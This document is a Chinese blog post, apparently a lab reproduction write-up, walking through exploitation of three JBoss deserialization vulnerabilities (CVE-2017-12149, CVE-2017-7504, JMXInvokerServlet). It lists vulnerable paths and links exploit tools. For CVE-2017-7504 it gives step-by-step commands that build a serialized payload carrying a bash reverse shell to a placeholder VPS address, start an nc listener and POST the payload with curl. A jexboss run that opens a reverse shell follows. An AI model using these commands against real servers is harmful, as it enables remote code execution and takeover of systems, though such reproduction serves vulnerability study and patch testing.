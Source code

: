 ```yaml
---
title: JBoss漏洞复现
date: 2021-01-07 21:31:32
categories: 漏洞复现
tags: JBoss
---
```


#### 背景

JBOSS是一个基于J2EE的[开放源代码](https://baike.baidu.com/item/开放源代码)的[应用服务器](https://baike.baidu.com/item/应用服务器)。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。JBoss是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3的规范。但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。

<!--more-->

#### JBoss反序列化漏洞(CVE-2017-12149)

##### 影响版本

1. JBoss 5.x
2. JBoss 6.x

##### 漏洞成因

Java反序列化错误类型引发该漏洞，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

#### 复现过程

1.JBoss主页

![](https://cdn.laohuan.art/jboss%E4%B8%BB%E9%A1%B5_2021-01-05_21-32-52.png)

2.漏洞路径

`/invoker/readonly`

访问路径出现500错误，便可能出现此漏洞

![](https://cdn.laohuan.art/Snipaste_2021-01-05_21-40-22.png)

3.工具

![](https://cdn.laohuan.art/Snipaste_2021-01-05_21-37-53.png)

#### 反序列化(CVE-2017-7504)

##### 影响版本

JBoss 4.x 及之前版本

##### 成因

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

##### 漏洞路径

`/jbossmq-httpil/HTTPServerILServlet`

##### 复现过程

1.工具套件

- [https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)

2.`javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java`

命令执行完毕生成***ExampleCommonsCollections1WithHashMap.class**文件*

3.`java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/x.x.x.x/80 0>&1"`

反弹地址改为自己的VPS地址，命令执行后生成**ExampleCommonsCollections1WithHashMap.ser**

4.服务器开启NC监听

`nc -lvp 80`

5.`curl http://192.168.0.108:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser`

![](https://cdn.laohuan.art/Snipaste_2021-01-05_22-45-44.png)

6.获得shell

![](https://cdn.laohuan.art/Snipaste_2021-01-05_22-41-52.png)

#### JBoss JMXInvokerServlet 反序列化漏洞

##### 成因

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

##### 验证方式

访问IP+端口/invoker/JMXInvokerServlet，只要有文件下载，目标网站即存在JBoss JMXInvokerServlet 反序列化漏洞

##### 复现过程

1.工具

[[DeserializeExploit.jar](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)]

2.工具

[https://github.com/joaomatosf/jexboss](https://github.com/joaomatosf/jexboss)

`python jexboss.py -u http://192.168.0.108:8080`

![](https://cdn.laohuan.art/Snipaste_2021-01-06_23-13-47.png)

输入yes

填写反弹IP端口

![](https://cdn.laohuan.art/Snipaste_2021-01-06_23-15-01.png)

启动NC监听

`nc -lvp 80`

反弹成功

![](https://cdn.laohuan.art/Snipaste_2021-01-06_23-12-50.png)

参考链接

- [https://github.com/vulhub/vulhub/tree/master/jboss](https://github.com/vulhub/vulhub/tree/master/jboss)
- [https://www.pianshen.com/article/11401315597/](https://www.pianshen.com/article/11401315597/)
- [https://www.cnblogs.com/yuzly/p/11240101.html](https://www.cnblogs.com/yuzly/p/11240101.html)
- [https://www.cnblogs.com/iamver/p/11282928.html](https://www.cnblogs.com/iamver/p/11282928.html)
- [https://www.cnblogs.com/sevck/p/7874438.html](https://www.cnblogs.com/sevck/p/7874438.html)

